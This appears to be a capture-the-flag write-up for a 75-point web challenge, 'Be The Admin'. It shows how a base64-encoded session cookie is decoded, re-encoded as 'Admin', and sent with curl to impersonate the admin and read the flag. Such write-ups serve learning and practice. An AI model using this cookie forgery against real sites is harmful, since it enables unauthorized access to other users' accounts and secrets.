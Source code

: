 **Be The Admin**  
Points: 75  
Topics: web  
  
Description  
This is a very basic website where you can view other user's profiles, but you can only see your own secret. I'll bet other users' secrets have something of interest  
http://184.72.87.9:8012

**Write-up**  
Very simple web challenge. 
  
The main page shows links that take to each user's "profile" page.  
<img src="./images/index.png" alt="index page"/>  
<img src="./images/participant.png" alt="participant profile"/><img src="./images/admin.png" alt="admin profile"/>
  
When first requesting the server you are given a `Set-Cookie` header:  
<img src="./images/setcookie.png" alt="request headers"/>  

By base64 decoding it...
```
$ echo -n "Q1RGIFBhcnRpY2lwYW50" | base64 -d
CTF Participant
```
... which matches one of the profiles' name. Being the other name "Admin" what you have to do is base64 encode it...

```
$ echo -n "Admin" | base64
QWRtaW4=
```
... and replace the `Cookie: session_id` cookie header with it's value, with a little caveat: the padding char `=` must be removed so it's safe for URL enconding, according to [Wikipedia](https://en.wikipedia.org/wiki/Base64):
> Some variants allow or require omitting the padding '=' signs to avoid them being confused with field separators, or require that any such padding be percent-encoded.

```
$ curl -s 'http://184.72.87.9:8012/profile?id=2' -v -H 'Cookie: session_id="QWRtaW4"'
*   Trying 184.72.87.9:8012...
* Connected to 184.72.87.9 (184.72.87.9) port 8012 (#0)
> GET /profile?id=2 HTTP/1.1
> Host: 184.72.87.9:8012
> User-Agent: curl/7.88.1
> Accept: */*
> Cookie: session_id="QWRtaW4"
>
< HTTP/1.1 200
< Content-Type: text/html;charset=UTF-8
< Content-Language: en-US
< Transfer-Encoding: chunked
< Date: Sat, 18 Nov 2023 20:36:23 GMT
<
<!DOCTYPE HTML>
<html>
<head>
  <title>Be The Admin</title>
  <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
</head>
<body>
<h1>Profile</h1>
<br>
<p>Name: Admin</p>
<p>Secret: flag{boyireallyhopenobodyfindsthis!!}</p>
</body>
</html>
* Connection #0 to host 184.72.87.9 left intact
``` 
